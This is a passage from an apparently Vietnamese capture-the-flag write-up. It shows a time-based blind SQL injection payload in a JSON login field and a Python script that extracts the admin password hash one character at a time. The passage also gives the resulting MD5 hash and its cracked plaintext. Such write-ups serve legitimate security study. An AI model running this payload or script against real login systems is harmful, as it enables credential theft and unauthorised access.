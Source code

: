 Tiếp tục brute-force toàn bộ password 

```json
{"username":"admin\" and (select sleep(10) from users where SUBSTR(password,17,1) = '5')-- -","password":"abc"}
```

script python:

```py
import requests
import time

burp1_url = "http://144.126.196.198:32438/api/login"
burp1_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0", "Accept": "*/*", "Accept-Language": "vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Referer": "http://144.126.196.198:32438/", "Content-Type": "application/json", "Origin": "http://144.126.196.198:32438", "Connection": "close"}

alpha = "0123456789abcdef"
password = ""
for i in range(1, 33):
    for k in alpha:
        burp1_json = {"password": "abc", "username": "admin\" and (select sleep(10) from users where SUBSTR(password,"+str(i)+",1) = '"+k+"')-- -"}
        t1 = time.time()
        requests.post(burp1_url, headers=burp1_headers, json=burp1_json)
        t2 = time.time()
        if t2-t1 > 10:
            password += k
            print(password)
            break

```

output:

```
1692b753c031f2905b89e7258dbc49bb
```

Decrypt hash MD5 và mình có được password admin `ichliebedich`

![image-20230320205207994](./assets/image-20230320205207994.png)

Sau khi đăng nhập bằng tài khoản admin, trang này không có chức năng gì ngoài chức năng export ở cuối trang web

![image-20230320205522149](./assets/image-20230320205522149.png)
